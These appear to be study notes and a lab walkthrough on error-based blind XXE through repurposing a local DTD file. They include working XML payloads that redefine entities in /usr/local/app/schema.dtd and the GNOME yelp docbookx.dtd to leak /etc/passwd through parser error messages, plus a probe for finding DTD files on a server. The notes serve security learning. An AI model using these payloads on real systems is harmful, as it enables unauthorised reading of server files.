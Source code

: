 ## Introduction
1. **External vs. Internal DTD:** 
	- In XML, there are two ways to define the structure of your data using a Document Type Definition (DTD): external and internal. The described technique works well with an external DTD, which is stored separately from the XML document. However, it doesn't usually work with an internal DTD that's fully defined within the document's DOCTYPE element.
    
2. **XML Parameter Entities:** 
	- The technique involves using XML parameter entities to define parts of the DTD. Parameter entities are like placeholders for sections of the DTD, allowing you to reuse them for brevity and clarity.
    
3. **Limitation in Internal DTDs:** 
	- The XML specification permits using an XML parameter entity within the definition of another parameter entity in external DTDs. But, according to the specification, this isn't typically allowed in internal DTDs (those defined within the document). Some parsers might tolerate this, but many won't.

4. **Blind XXE Vulnerabilities with Limited Options:** 
	- In a scenario where out-of-band interactions are blocked, you can't steal data using external connections, and you can't load an external DTD from a remote server (which is a common way to exploit XXE vulnerabilities).

5. **Error Messages and Sensitive Data:** 
	- Still, there's a possibility of triggering error messages containing sensitive information due to a quirk in the XML specification. If a document's DTD is a mix of both internal and external declarations, the internal DTD can redefine entities declared in the external DTD.

6. **Relaxation of Restrictions:** 
	- When internal DTD redefines external DTD entities, the rule that usually restricts using an XML parameter entity within another parameter entity's definition can be circumvented.

7. **Attacker's Strategy:** 
	- The attacker uses a method called "error-based XXE." They exploit a weakness in the way XML files are handled to gain unauthorized access to sensitive information.
    
8. **Using Internal DTD:** 
	- The attacker works within an internal DTD (Document Type Definition) - a set of rules that define the structure of an XML document.
    
9. **XML Parameter Entity:** 
	- The attacker uses a special code snippet called an "XML parameter entity" to cause trouble. This snippet redefines a part of the XML file.
    
10. **Redefining Entities:** 
	- This XML parameter entity is used to change something that's already defined in an external DTD (like a set of rules stored elsewhere). This redefinition is what sets the stage for the attack.
    
11. **Triggering Parsing Error:** 
	- By making this tricky change, the attacker triggers an error while the XML is being processed (parsed). This error contains sensitive information that they're after.
    
12. **Local DTD File:** 
	- If the system blocks connections to the outside world, the attacker can't fetch the external DTD from a remote location. So, they need a special DTD file stored on the local server where the application is running.
    
13. **Local File Repurposing:** 
	- The attacker uses a DTD file already present on the local server. They tweak it to redefine an existing element in a way that triggers an error carrying valuable data.
    
14. **Origin of Technique:** 
	- This technique was developed by Arseniy Sharoglazov. It was ranked as the 7th most impactful web hacking technique in 2018.

In a nutshell, the attacker manipulates XML files in a clever way to create errors that expose hidden sensitive information, using a method developed by Arseniy Sharoglazov.

### Example - 
suppose there is a DTD file on the server filesystem at the location `/usr/local/app/schema.dtd`, and this DTD file defines an entity called `custom_entity`.
An attacker can trigger an XML parsing error message containing the contents of the `/etc/passwd` file by submitting a hybrid DTD like the following:
```python
<!DOCTYPE foo [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd"> 
<!ENTITY % custom_entity ' 
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> 
&#x25;eval; 
&#x25;error; 
'> 
%local_dtd; 
]>
```

**This DTD carries out the following steps:**
- Defines an XML parameter entity called `local_dtd`, containing the contents of the external DTD file that exists on the server filesystem.
- Redefines the XML parameter entity called `custom_entity`, which is already defined in the external DTD file. The entity is redefined as containing the error-based XXE exploit that was already described, for triggering an error message containing the contents of the `/etc/passwd` file.
- Uses the `local_dtd` entity, so that the external DTD is interpreted, including the redefined value of the `custom_entity` entity. This results in the desired error message.

### Locating an existing DTD file to repurpose
1. **Repurposing DTD:** In this attack, we're changing the purpose of an existing DTD (a rules file for XML).
    
2. **Finding a DTD:** To do this, we need to find a suitable DTD file already on the server.
    
3. **Easy Discovery:** It's surprisingly easy because the application shows us errors caused by the XML rules.
    
4. **Trying Different DTDs:** We can figure out which DTD files are on the server by trying to use them from within our own rules.
**Example** - 
Linux systems using the GNOME desktop environment often have a DTD file at `/usr/share/yelp/dtd/docbookx.dtd`.
You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing:
```python
<!DOCTYPE foo [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> 
%local_dtd; 
]>
```
- After you have tested a list of common DTD files to locate a file that is present, you then need to obtain a copy of the file and review it to find an entity that you can redefine.
- Since many common systems that include DTD files are open source, you can normally quickly obtain a copy of files through internet search.

## Steps to solve lab
### Desc - Exploiting XXE to retrieve data by repurposing a local DTD
**Our end goal** - trigger an error message containing the contents of the `/etc/passwd` file.
#### Hint

Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso.` 

1. Now, first we need to test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing:
```python
<!DOCTYPE foo [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> 
%local_dtd; 
]>
```
![[XXE22.png]]
From the above error, we clearly say that this file doesn't exist in the server. 

2. We clearly given a hint in the that the Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso.`
![[XXE23.png]]

3. Now, Insert the following parameter entity definition in between the XML declaration and the `stockCheck` element:
```python
<!DOCTYPE foo [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> 
<!ENTITY % ISOamso ' 
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> 
&#x25;eval; 
&#x25;error; 
'> 
%local_dtd; 
]>
```
This will import the Yelp DTD, then redefine the `ISOamso` entity, triggering an error message containing the contents of the `/etc/passwd` file.
![[XXE24.png]]
